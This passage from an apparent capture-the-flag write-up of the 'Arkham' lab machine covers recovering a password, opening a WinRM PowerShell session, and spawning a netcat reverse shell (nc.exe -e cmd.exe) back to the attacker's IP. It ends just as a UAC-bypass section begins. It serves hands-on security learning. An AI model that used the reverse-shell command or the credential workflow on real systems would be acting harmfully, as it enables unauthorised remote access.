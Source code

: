 The email contains a reference to Batman's password, which is in the attached image.

```
<p class=MsoNormal>Master Wayne stop forgetting your password<o:p></o:p></p>
```

The attachment contains a screenshot with Batman's password:

![](/assets/images/htb-writeup-arkham/batman.png)

Password: `Zx^#QZX+T!123`

Using WinRM I can start a powershell session as `batman`.

```
C:\Users\Alfred>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\Alfred> $username = 'batman'
PS C:\Users\Alfred> $password = 'Zx^#QZX+T!123'
PS C:\Users\Alfred> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Users\Alfred> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\Users\Alfred> enter-pssession -computername arkham -credential $credential
[arkham]: PS C:\Users\Batman\Documents>
```

Something's wrong though, I can't change directories or see error messages:

```
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
arkham\batman
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
```

So what I did was spawn another netcat as `batman`

```
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666

# nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.130] 49695
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Documents>whoami
arkham\batman
```

### Unintended way to get access to the Administrator user directory

I can't get to the Administrator directory because UAC is enabled.

With Powershell I can check the status of UAC and see that it is enabled:

